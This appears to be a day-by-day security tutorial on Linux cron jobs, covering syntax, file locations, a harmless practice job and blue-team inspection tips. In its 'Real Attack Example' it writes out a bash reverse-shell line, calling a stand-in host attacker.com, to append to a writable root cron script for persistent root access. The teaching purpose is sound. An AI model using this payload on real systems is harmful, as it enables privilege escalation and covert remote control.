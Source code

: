 # Day 10 – Cron Jobs: Scheduled Tasks & Exploitation
<img width="1200" height="400" alt="image" src="https://github.com/user-attachments/assets/889f5ffe-e362-4c06-a357-c83ab0bb131b" />

Cron is a Linux utility that schedules tasks to run at fixed intervals. For attackers, it can be used to gain persistence, escalate privileges, or maintain control.

---

## ⏰ What Is Cron?

Cron jobs are scheduled scripts/commands that run automatically.

- System-wide cron files:
  - `/etc/crontab`
  - `/etc/cron.d/`
- User-specific jobs:
  - `crontab -e`
  - `/var/spool/cron/<user>`

---

## 🧠 Cron Syntax

```bash
* * * * * /path/to/command
│ │ │ │ │
│ │ │ │ └─ Day of week (0-6)
│ │ │ └─── Month (1-12)
│ │ └───── Day of month (1-31)
│ └─────── Hour (0-23)
└───────── Minute (0-59)
```

## 🔍 Exploitation Scenarios
| Scenario                    | Explanation                      |
| --------------------------- | -------------------------------- |
| Writable cron script        | Inject reverse shell into it     |
| User cron with root context | Schedule backdoor or enumeration |
| Frequent execution          | Can be used as an execution loop |
| Logs not monitored          | Hard to detect persistent jobs   |


## ⚠️ Real Attack Example
If you find:
```
*/1 * * * * root /opt/cleaner.sh
```

And:
```
ls -l /opt/cleaner.sh
```

Shows it’s writable, then:
```
echo 'bash -i >& /dev/tcp/attacker.com/4444 0>&1' >> /opt/cleaner.sh
```
→ Root shell every minute!

## 🧪 Task of the Day
List current crons:
```
crontab -l
```

Add a test job:
```
crontab -e
```

Insert:
```
*/1 * * * * echo "Executed at $(date)" >> /tmp/cron_output.txt
```

Wait a minute and check output:
```
cat /tmp/cron_output.txt
```

View system-wide crons:
```
cat /etc/crontab
ls -la /etc/cron.d/
```
## 🔐 Blue Team Tip
- Always inspect cron jobs as part of incident response
- Check for:
  - Unexpected scripts
  - Malicious payloads
  - External connections
  - Frequent executions with unknown origin

📡 Learn how attackers use native tools like cron to stay persistent:    
➡️ https://t.me/cybersecplayground


---

Be ready for **Day 11**, where we’ll explore **SSH (Secure Shell)** — not just how it works, but how to abuse keys, configs, and hijack sessions.

## Tags
`#linux` `#cron` `#persistence` `#redteam` `#infosec` `#privilegeescalation`
